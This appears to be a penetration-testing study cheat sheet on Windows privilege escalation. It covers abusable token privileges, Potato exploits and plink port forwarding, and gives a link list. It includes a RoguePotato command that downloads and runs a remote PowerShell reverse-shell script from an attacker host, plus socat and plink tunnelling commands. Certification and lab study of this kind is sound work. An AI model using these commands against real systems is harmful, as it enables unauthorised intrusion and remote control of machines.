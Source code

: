 ```
What is Access Token: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/access-tokens

Check if any of these access tokens are enabled:

SeImpersonatePrivilege: can be exploited with rottenpotato, juicypotato\
SeAssignPrimaryPrivilege: can be exploited rottenpotato, juicypotato\
SeBackupPrivilege: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens\
etc. \
SeRestorePrivilege: grants write access to all objects on the system -> modify service binaries, overwrite DLLs used by SYSTEM processes, modify registry settings.\
SeTakeOwnershipPrivilege: allows user to take ownership over an object (WRITE_OWNER permission). Once owned -> we can modify its ACL and grant us write access -> same as SeRestorePrivilege.\
JuicyPotato won't work with Windows 10 1809 and Windows Server 2019 and above. Try **Rogue Potato** instead: \
Transfer RoguePotato.exe over the target machine. \
On local machine: 
```
socat tcp-listen:135,reuseaddr,fork tcp:$RHOST:$RPORT
```
Set up a Python server to transfer powershell payload over and a netcat listner. \
On target machine: 
```
.\RoguePotato.exe -r 10.10.14.x -e "powershell -c IEX( IWR http://10.10.14.x:6666/rev.ps1 -UseBasicParsing)" -l 9000
```
The port '9000' has to be open on the target, or we can use Chisel to open and tunnel it. Watch Worker@HTB writeup.


**Port forwarding for privilege escalation**

If a service is listening locally only, or the firewall blocks a specific incoming port.\
We can port forward with plink.exe\
```plink.exe root@$LHOST -R  8080:127.0.0.1:8080```: forward a remote port to a local port, the first 8080 is the port on kali, second 8080 is the victim's port to forward to.\
Make sure Kali's SSH can be accessed with root.\
Now, 8080 on Kali is being forwarded to the target's 8080 over the SSH connection.\
https://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security/ssh-tunnelling-port-forwarding.md


If Windows 7 is detected, check for potential Eternal Blue or Kernel Exploit.

https://casvancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/#privilege-escalation
https://butter0verflow.github.io/oscp/OSCP-WindowsPrivEsc-Part1/
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842
https://github.com/sagishahar/lpeworkshop
https://github.com/411Hall/JAWS
https://steflan-security.com/?p=474
http://www.fuzzysecurity.com/tutorials/16.html

